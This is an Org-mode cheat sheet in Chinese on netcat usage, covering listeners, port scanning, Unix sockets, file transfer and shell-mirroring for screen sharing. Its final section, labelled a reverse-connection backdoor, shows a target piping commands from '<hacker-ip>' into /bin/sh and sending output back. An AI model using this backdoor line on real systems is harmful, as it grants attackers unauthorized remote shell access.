 #+TITLE:     Netcat
#+AUTHOR:    Hao Ruan
#+EMAIL:     ruanhao1116@gmail.com
#+LANGUAGE:  en
#+LINK_HOME: http://www.github.com/ruanhao
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="../css/style.css" />
#+OPTIONS:   H:2 num:nil \n:nil @:t ::t |:t ^:{} _:{} *:t TeX:t LaTeX:t
#+STARTUP:   showall


* 一，基本用法

- 服务器端

  =nc -l <port>=

- 客户端

  =nc <ip> <port>=


* 二，用法示例

- 检测端口

  =nc -w 1 -z <ip> 20-30=

- 设置连接超时

  =nc -w 5 <ip> <port>=

- 指定源 IP

  #+BEGIN_SRC
  ## -s 指定 src ip
  nc -s 10.1.2.3 <ip> <port>
  #+END_SRC

- 使用 Unix Domain Socket

  - 服务器端

    =nc -lU /var/tmp/dsocket=

  - 客户端

    =nc -U /var/tmp/dsocket=

- 传输文件

  #+BEGIN_SRC
  nc -v -l 8080 < file.txt       ## 服务器端
  nc <ip>  8080 > save_file.txt  ## 客户端

  nc -v -l 8080 > file.txt       ## 服务器端
  nc <ip>  8080 < save_file.txt  ## 客户端
  #+END_SRC

- 共享屏幕

  - 一对多

    #+BEGIN_SRC
    script -qf | tee >(nc -kl 5000) >(nc -kl 5001) >(nc -kl 5002)
    ## run 'nc yourip 5000', 'nc yourip 5001' or 'nc yourip 5002' elsewhere
    ## will produce an exact same mirror of your shell.
    ## This is handy when you want to show someone else some amazing stuff
    ## in your shell without giving them control over it.
    #+END_SRC

  - 一对一

    #+BEGIN_SRC
    mkfifo foo; script -f foo ## master
    cat foo ## slaver
    #+END_SRC

- 反向连接后门

  在 hacker 主机 2345 端口上输入命令，在 2346 端口查看结果

  #+BEGIN_SRC
  ## hacker
  nc -l 2345
  nc -l 2346

  ## target
  nc <hacker-ip> 2345 | /bin/sh | nc <hacker-ip> 2346
  #+END_SRC
